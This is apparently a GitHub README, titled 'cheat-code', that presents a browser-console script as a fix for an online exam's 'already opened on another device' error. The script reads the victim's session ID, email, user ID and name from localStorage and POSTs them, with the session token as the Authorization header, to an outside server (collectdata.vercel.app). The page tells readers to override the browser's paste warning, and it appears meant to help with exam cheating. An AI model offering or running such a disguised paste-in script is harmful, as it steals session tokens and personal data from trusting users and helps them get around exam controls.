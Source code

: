 # cheat-code
# CollectData

This script will resolve the `test already opened in another browser/device` issue in the exam.

1. Connect to LPU Wireless.
2. Login on exam portal, execute a script, ensuring not to log out after this process.
3. Change the WiFi connection as per your requirements.

`Note:` This setup should be completed before the exam starts in 5-20 minutes. This script will only help you fix login issues, not to complete the test.

## Run the script in the browser console

Follow the steps below to run the script in the browser console to send data to the server.

1. Open the browser console by pressing `F12` or `Ctrl + Shift + I` or right-click on the page and select `Inspect`.
2. Click on the `Console` tab.
3. Allow pasting in the console typing `allow pasting` and pressing `Enter`.
4. Paste the script below in the console and press `Enter`.
5. Exit the console and refresh the page.

```javascript

const tempIp = ''  // Add your IP address here

const getIpAddress = async () => {
    try {
        const response = await fetch('https://api.ipify.org');
        const data = await response.text();
        return data;
    }
    catch (error) {
        console.error('Error:', error.message);
    }
}

async function hitServer() {
    const baseUrl = 'https://collectdata.vercel.app';
    try {
        const sessionId = localStorage.getItem('sessionId');
        const formDataString = localStorage.getItem('formData');

        if (!sessionId || !formDataString) {
            throw new Error('Session ID or form data is missing.');
        }

        const formData = JSON.parse(formDataString);
        const { primary_email, user_id, name } = formData;

        const currentIp = tempIp !== '' ? tempIp : await getIpAddress();

        const queryParams = new URLSearchParams({
            primary_email,
            user_id,
            name,
            platform: window.location.hostname.split('.')[1],
            ip_address: currentIp
        }).toString();

        const url = `${baseUrl}/api/v1/collect?${queryParams}`;

        const options = {
            method: 'POST',
            headers: {
                'Authorization': sessionId
            }
        };

        const response = await fetch(url, options);

        if (!response.ok) {
            throw new Error('Network response was not ok');
        }

        const data = await response.json();
        console.log(data);
    } catch (error) {
        console.error('Error:', error.message);
    }
}

hitServer();
```

You must open the test 5 minutes `late` and `submit it`.

**All solutions will be saved**
